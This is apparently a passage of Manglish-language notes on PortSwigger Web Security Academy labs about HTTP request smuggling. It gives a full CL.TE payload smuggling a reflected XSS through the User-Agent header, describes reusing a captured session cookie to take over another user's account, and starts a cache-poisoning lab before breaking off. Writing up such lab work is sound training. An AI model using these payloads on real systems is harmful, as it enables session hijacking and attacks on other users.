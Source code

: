 -->ithil session token undakum.so ath copy chyth browser ile cookie extension il poi ee token save chyth refresh adichal lab solve aakum.ie namal carlos aayi marum ok

==============================================================

### Using HTTP request smuggling to exploit reflected XSS :
-->If an application is vulnerable to HTTP request smuggling and also contains reflected XSS, you can use a request smuggling attack to hit other users of the application
-->It requires no interaction with victim users. You don't need to feed them a URL and wait for them to visit it

       Lab-9(Exploiting HTTP request smuggling to deliver reflected XSS)
-->aadyam lab open chyuka enit GET /  request eduth repeater il iduka
-->ini athile ethengilum blog post edukuka enit nokiyal kanam athile `user-agent: ...a"/<script>alert(1)</script>`   il ingane script chythal namuk aa response il kanam ee script angane thane html il add ayitund.athayath script reflect aakunund.so ee response eduth browser il ittal namuk kanam xss trigger aakunund
--->so namuk ee GET /post?postId=3  request namuk smuggle chyam.apol ee request send aayikazhiyumbol next user ee page ilek pokumbol alert pop up aakum
-->so home page int GET /  request eduth aadyam chyuka enit ee reuquest itt smuggle chyuka
-->final payload :

```http
POST / HTTP/1.1
Host: 0a8600a1039293f6c07e0aa900540013.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```

-->ini send adikuka apol namuk kanam namude response il ee script reflect aakunund.ini browser il poi ee particular blogpost refresh chythal alert pop up aakum

==============================================================

          Lab-10(Exploiting HTTP request smuggling to perform web cache poisoning)
-->ivide front-end content-lenth aan support chyuka
-->aadyam lab open chyuka enit GET /  request eduth repeater il iduka
-->ini ethengilum oru blog post click chyuka enit aa page il next page enna button undakum.so ath click chyuka enit aa request eduth repeater il iduka `GET /post/next?postId=1`
-->ini aadyathe GET /  request eduth satharana chyuna pole C.T,C.L,T.E iitum pine get mati POST aakuka
-->enit namude ee GET /post/next?postId=1  request smuggle chyanayi iduka enit athile host: josu ennu kodukam enit send kore pravisham adikuka apol namuk 302 FOUND enn kanum arthil `Location: https://josu/post?postId=2`  enn response il kanam aa request nokama :
